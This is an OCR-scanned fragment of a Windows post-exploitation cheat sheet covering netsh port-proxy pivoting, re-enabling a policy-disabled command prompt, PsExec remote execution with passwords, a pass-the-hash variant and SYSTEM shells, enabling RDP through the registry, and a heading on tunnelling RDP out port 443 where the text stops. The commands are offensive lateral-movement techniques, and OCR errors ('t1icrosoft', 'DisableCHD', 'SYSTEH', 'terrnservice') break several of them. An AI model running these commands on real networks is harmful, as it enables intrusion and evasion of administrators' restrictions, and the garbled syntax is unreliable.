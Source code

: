 ```text
netsh interface portproxy add v4tov4 listenport=3000 listenaddress=l.l.l.l connectport=4000 connectaddress=2.2.2.2 
#Remove
netsh interface portproxy delete v4tov4 listenport=3000 listenaddress=l.l.l.l 
```

### Re-enable command prompt

```text
reg add HKCU\Software\Policies\t1icrosoft\Windows\System /v DisableCHD /t REG DWORD /d 0 /f 
```

## PSEXEC

### Execute file hosted on remote system with specified credentials

```text
psexec /accepteula \\ targetiP -u domain\user -p password -c -f \\ smbiP \share\file.exe 
```

### Run remote command with specified hash

```text
psexec /accepteula \\ ip -u Domain\user -p Lt1 c:\Progra-1 
```

### Run remote command as system

```text
psexec /accepteula \\ ip -s cmd.exe 
```

## Terminal services \(RDP\)

### Start RDP

```text
Create regfile.reg file with following line in it: HKEY LOCAL t1ACHINE\SYSTEH\CurrentControlSet \Control\ TerminalService 
"fDenyTSCo~nections"=dword: 00000000
reg import reg file. reg 
net start ''terrnservice'' 
sc config terrnservice start= auto 
net start terrnservice 

    --OR--
reg add "HKEY LOCAL t1ACHINE\SYSTEH\CurentControlSet\Control \Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

### Tunnel RDP out port 443 \(may need to restart terminal services\)
